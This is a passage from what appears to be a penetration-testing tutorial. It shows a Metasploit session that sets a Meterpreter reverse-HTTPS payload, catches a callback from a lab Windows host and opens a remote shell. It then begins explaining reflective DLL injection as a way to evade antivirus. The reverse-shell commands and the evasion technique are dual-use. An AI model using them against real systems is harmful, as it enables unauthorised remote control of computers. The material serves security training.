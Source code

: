 ```bash
Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://192.168.1.113:443
[!] https://192.168.1.113:443 handling request from 192.168.1.141; (UUID: 7efb85gt) Without a database connected that payload UUID tracking will not work!
[*] https://192.168.1.113:443 handling request from 192.168.1.141; (UUID: 7efb85gt) Staging x64 payload (202844 bytes) ...
[!] https://192.168.1.113:443 handling request from 192.168.1.141; (UUID: 7efb85gt) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (192.168.1.113:443 -> 192.168.1.141:59838) at 2024-05-27 13:12:38 -0400

meterpreter > getuid
Server username: COMMANDO\<user>

```

## Reflective Dll Injection

Reflective DLL injection is a sophisticated technique often used in penetration testing and by malicious actors. This technique allows an attacker to inject a DLL into the memory of a process without writing the DLL to disk, making it harder to detect by traditional antivirus tools. 

Reflective DLL injection typically involves loading a DLL into the memory of a process and executing its code without using the standard Windows API (e.g., `LoadLibrary`). Instead, it uses custom code to manually map the DLL into memory.

### **Overview of Reflective DLL Injection**

1. **Reflective DLL**: A DLL that includes a loader function within it, responsible for loading the DLL into memory and resolving dependencies.
2. **Injector Process**: A process that injects the reflective DLL into the target process. The injection can be done using techniques like `CreateRemoteThread`, `SetThreadContext`, or even PowerShell.

### **Steps Involved in Reflective DLL Injection**

1. **Create a Reflective DLL**:
    - The DLL includes a custom loader that handles its own loading process (mapping sections, resolving imports, etc.).
    